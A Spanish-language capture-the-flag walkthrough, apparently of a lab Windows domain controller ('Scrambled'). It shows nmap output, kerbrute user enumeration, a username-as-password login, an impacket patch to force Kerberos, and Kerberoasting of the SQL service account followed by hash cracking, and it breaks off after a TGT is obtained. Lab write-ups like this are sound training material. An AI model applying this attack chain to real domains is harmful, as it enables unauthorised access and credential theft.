 #ActiveDirectory #medium #windows 
### Ping
```python
ping -c 1 10.10.11.168
PING 10.10.11.168 (10.10.11.168) 56(84) bytes of data.
64 bytes from 10.10.11.168: icmp_seq=1 ttl=127 time=156 ms

--- 10.10.11.168 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 155.962/155.962/155.962/0.000 ms
```

### TTL 127=Windows

### nmap
```python
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Scramble Corp Intranet
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-04-01 22:16:40Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: scrm.local0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC1.scrm.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC1.scrm.local
| Not valid before: 2024-04-01T22:04:24
|_Not valid after:  2025-04-01T22:04:24
|_ssl-date: 2024-04-01T22:19:53+00:00; -1m03s from scanner time.
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: scrm.local0., Site: Default-First-Site-Name)
|_ssl-date: 2024-04-01T22:19:53+00:00; -1m03s from scanner time.
| ssl-cert: Subject: commonName=DC1.scrm.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC1.scrm.local
| Not valid before: 2024-04-01T22:04:24
|_Not valid after:  2025-04-01T22:04:24
1433/tcp  open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-info: 
|   10.10.11.168:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2024-04-01T22:14:22
|_Not valid after:  2054-04-01T22:14:22
|_ssl-date: 2024-04-01T22:19:53+00:00; -1m03s from scanner time.
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: scrm.local0., Site: Default-First-Site-Name)
|_ssl-date: 2024-04-01T22:19:53+00:00; -1m03s from scanner time.
| ssl-cert: Subject: commonName=DC1.scrm.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC1.scrm.local
| Not valid before: 2024-04-01T22:04:24
|_Not valid after:  2025-04-01T22:04:24
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: scrm.local0., Site: Default-First-Site-Name)
|_ssl-date: 2024-04-01T22:19:53+00:00; -1m03s from scanner time.
| ssl-cert: Subject: commonName=DC1.scrm.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC1.scrm.local
| Not valid before: 2024-04-01T22:04:24
|_Not valid after:  2025-04-01T22:04:24
4411/tcp  open  found?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GenericLines, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, NCP, NULL, NotesRPC, RPCCheck, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns: 
|     SCRAMBLECORP_ORDERS_V1.0.3;
|   FourOhFourRequest, GetRequest, HTTPOptions, Help, LPDString, RTSPRequest, SIPOptions: 
|     SCRAMBLECORP_ORDERS_V1.0.3;
|_    ERROR_UNKNOWN_COMMAND;
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49686/tcp open  msrpc         Microsoft Windows RPC
49725/tcp open  msrpc         Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please sub
mit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port4411-TCP:V=7.94SVN%I=7%D=4/1%Time=660B3287%P=x86_64-pc-linux-gnu%r(
SF:NULL,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(GenericLines,1D,"SCRAMBL
SF:ECORP_ORDERS_V1\.0\.3;\r\n")%r(GetRequest,35,"SCRAMBLECORP_ORDERS_V1\.0
SF:\.3;\r\nERROR_UNKNOWN_COMMAND;\r\n")%r(HTTPOptions,35,"SCRAMBLECORP_ORD
SF:ERS_V1\.0\.3;\r\nERROR_UNKNOWN_COMMAND;\r\n")%r(RTSPRequest,35,"SCRAMBL
SF:ECORP_ORDERS_V1\.0\.3;\r\nERROR_UNKNOWN_COMMAND;\r\n")%r(RPCCheck,1D,"S
SF:CRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(DNSVersionBindReqTCP,1D,"SCRAMBLEC
SF:ORP_ORDERS_V1\.0\.3;\r\n")%r(DNSStatusRequestTCP,1D,"SCRAMBLECORP_ORDER
SF:S_V1\.0\.3;\r\n")%r(Help,35,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\nERROR_UNK
SF:NOWN_COMMAND;\r\n")%r(SSLSessionReq,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r
SF:\n")%r(TerminalServerCookie,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(T
SF:LSSessionReq,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(Kerberos,1D,"SCR
SF:AMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(SMBProgNeg,1D,"SCRAMBLECORP_ORDERS_V
SF:1\.0\.3;\r\n")%r(X11Probe,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(Fou
SF:rOhFourRequest,35,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\nERROR_UNKNOWN_COMMA
SF:ND;\r\n")%r(LPDString,35,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\nERROR_UNKNOW
SF:N_COMMAND;\r\n")%r(LDAPSearchReq,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n"
SF:)%r(LDAPBindReq,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(SIPOptions,35
SF:,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\nERROR_UNKNOWN_COMMAND;\r\n")%r(LANDe
SF:sk-RC,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(TerminalServer,1D,"SCRA
SF:MBLECORP_ORDERS_V1\.0\.3;\r\n")%r(NCP,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;
SF:\r\n")%r(NotesRPC,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(JavaRMI,1D,
SF:"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(WMSRequest,1D,"SCRAMBLECORP_ORDE
SF:RS_V1\.0\.3;\r\n")%r(oracle-tns,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")
SF:%r(ms-sql-s,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(afp,1D,"SCRAMBLEC
SF:ORP_ORDERS_V1\.0\.3;\r\n")%r(giop,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n
SF:");
Service Info: Host: DC1; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: mean: -1m03s, deviation: 0s, median: -1m03s
| smb2-time: 
|   date: 2024-04-01T22:19:13
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Apr  1 18:20:59 2024 -- 1 IP address (1 host up) scanned in 242.46 seconds
```

### Enumeración del puerto 80 (http)
tenemos una nota que dice que todas las autenticaciones serán a través de kerberos debido a que han deshabilitado la autenticación NTLM
![[Pasted image 20240401183535.png]]

`Suporte tecnico` 
Al pulsar en la opción Contactar con el soporte informático podremos encontrar una captura de pantalla que revela un posible
nombre de usuario.
![[Pasted image 20240401183808.png]]

### Kerbrute 
vamos a validar si el usuario existe a nivel de dominio usando `kerbrute`
```python
kerbrute -users creds -domain scrm.local -dc-ip 10.10.11.168 # este comando nos permite enumerar los usuarios dentro del archivo creds
```
![[Pasted image 20240401192906.png]]

### impacket-smbclient
podemos autenticarnos con el usuario. 
![[Pasted image 20240401193509.png]]

`PDF`
encontramos un archivo PDF que podría ser valioso
![[Pasted image 20240401194104.png]]

`PDF`
El archivo PDF nos da una pista sobre una base de datos SQL que contiene credenciales valiosas y está restringida solo para administradores. También menciona Kerberos. nos da una pista para analizar los ataques basados en Kerberos contra el servicio SQL
![[Pasted image 20240401194017.png]]

### Kerbrute
usaremos kerbrute para intentar validar las credenciales del usuario y usaremos el mismo nombre para la contraseña, de esta manera conseguimos un `TGT(Tickect Granting Tickect)` del usuario
![[Pasted image 20240401204535.png]]

### impacket-GetUserSPNs 
con impacket no podemos conseguir un `TGT(Tickect Granting Tickect)` debido a que la autenticación NTLM esta desactivada. 
![[Pasted image 20240401204858.png]]

`si forzamos a que el ataque sea por kerberos (-k) continuamos con el error`
![[Pasted image 20240401210220.png]]

`error -k options`
podemos conseguir en internet como resolver el problema de la autenticación de la siguiente manera
![[Pasted image 20240401210344.png]]

`editamos el escript`
![[Pasted image 20240401212242.png]]

### impacket-GetUserSPNs 
de esta manera podemos conseguir escapar el problema de la autenticación NTLM 
```python
impacket-GetUserSPNs scrm.local/ksimpson:ksimpson -k -dc-host dc1.scrm.local
```
obtenemos un usuario `sqlsvc` esto parece ser la propia cuenta del propio servicio `mssql` 
![[Pasted image 20240401213827.png]]

### impacket-GetUserSPNs - request
de esta manera podemos solicitar un NTMLv2 que es un hash del usuario
![[Pasted image 20240401215201.png]]

### john
usamos john para crackear el hash
![[Pasted image 20240401215129.png]]

### Kerbrute
obtenemos un `TGT` para el usuario `s`
![[Pasted image 20240401221128.png]]
